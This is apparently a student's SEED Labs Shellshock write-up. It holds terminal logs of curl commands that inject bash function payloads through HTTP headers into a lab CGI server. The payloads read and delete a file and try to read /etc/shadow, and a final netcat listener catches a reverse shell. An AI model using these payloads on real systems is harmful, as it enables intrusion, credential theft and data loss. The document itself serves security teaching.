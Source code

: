 ```
[02/16/21]seed@VM:~/.../image_www$ curl -e '() { :; }; echo; /bin/cat /tmp/test' http://www.seedlab-shellshock.com/cgi-bin/getenv.cgi
...
[02/16/21]seed@VM:~/.../image_www$ curl -H  temp:'() { :; }; echo; /bin/cat /tmp/test' http://www.seedlab-shellshock.com/cgi-bin/getenv.cgi
this is a test
[02/16/21]seed@VM:~/.../image_www$ curl -H  temp:'() { :; }; echo; /bin/rm /tmp/test' http://www.seedlab-shellshock.com/cgi-bin/getenv.cgi
[02/16/21]seed@VM:~/.../image_www$ curl -H  temp:'() { :; }; echo; /bin/cat /tmp/test' http://www.seedlab-shellshock.com/cgi-bin/getenv.cgi
```
1. For this one, the syntax, or the order of placement is very similar to /bin/cat. I took sometime to look for the location of rm, which is in /bin as well. The rest are the same. curl -option (declaration if -H:)'declare the function; echo; <file of the command> <file of data> ' server
2. For this one, I tested all three again. And all of them worked. Please note that I've skipped the lines that I used to add the string back.
3. My attack was successful. Overall, this one came with zero surprise, I kind of did this portion when I was testing for my create a file. Additionally, the syntax is almost identical to /bin/cat.

#### Task 3.5:
I am trying to get the information from /etc/shadow:
```
[02/16/21]seed@VM:~/.../image_www$ curl -A '() { :; }; echo Content_type: text/plain; echo; /bin/cat /etc/shadow' http://www.seedlab-shellshock.com/cgi-bin/getenv.cgi
[02/16/21]seed@VM:~/.../image_www$ curl -A '() { :; }; echo Content_type: text/plain; echo; /bin/ls /etc/shadow' http://www.seedlab-shellshock.com/cgi-bin/getenv.cgi
/etc/shadow

[02/16/21]seed@VM:~/.../image_www$ curl -A '() { :; }; echo Content_type: text/plain; echo; /bin/ls -l /etc/shadow' http://www.seedlab-shellshock.com/cgi-bin/getenv.cgi
-rw-r----- 1 root shadow 501 Nov  6 01:21 /etc/shadow
[02/16/21]seed@VM:~/.../image_www$ curl -e '() { :; }; echo Content_type: text/plain; echo; /bin/ls -l /etc/shadow' http://www.seedlab-shellshock.com/cgi-bin/getenv.cgi
-rw-r----- 1 root shadow 501 Nov  6 01:21 /etc/shadow
[02/16/21]seed@VM:~/.../image_www$ curl -H temp:'() { :; }; echo Content_type: text/plain; echo; /bin/ls -l /etc/shadow' http://www.seedlab-shellshock.com/cgi-bin/getenv.cgi
-rw-r----- 1 root shadow 501 Nov  6 01:21 /etc/shadow

```
1. I chose to do this with /bin/ls -l, the hint given to us on the top. Additionally, I slowly got to this point. First, I tried /bin/cat, which had nothing. Then I tried /bin/ls and realize that I want it to return a list of files in its folder. Therefore, I decided to use /bin/ls -l.
2. Although I knew the result after the first one, I still decided to run all three so it will be obvious later to myself.
3. None of the attack was successful. I do not have root privilege to run /etc/shadow. Thus, my attack was unsuccessful.

### Task 4:
For this task, I am trying to get a reverse shell via Shellshock. I am trying to make this one more close to life, since it would be way harder to do the hard-coding in the command line during an attack. In this task, I am simulating a server and an attacker. Then the attacker needs to run a reverse shell, which is going to be waiting in the beginning. It should give the attacker a convenient way to run commands on a compromised machine.  
**Attacker:**
```
[02/16/21]seed@VM:~/.../image_www$ nc -nvl 9090
Listening on 0.0.0.0 9090
Connection received on 10.9.0.80 37992
bash: cannot set terminal process group (29): Inappropriate ioctl for device
bash: no job control in this shell
www-data@00f72f975599:/usr/lib/cgi-bin$ id
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```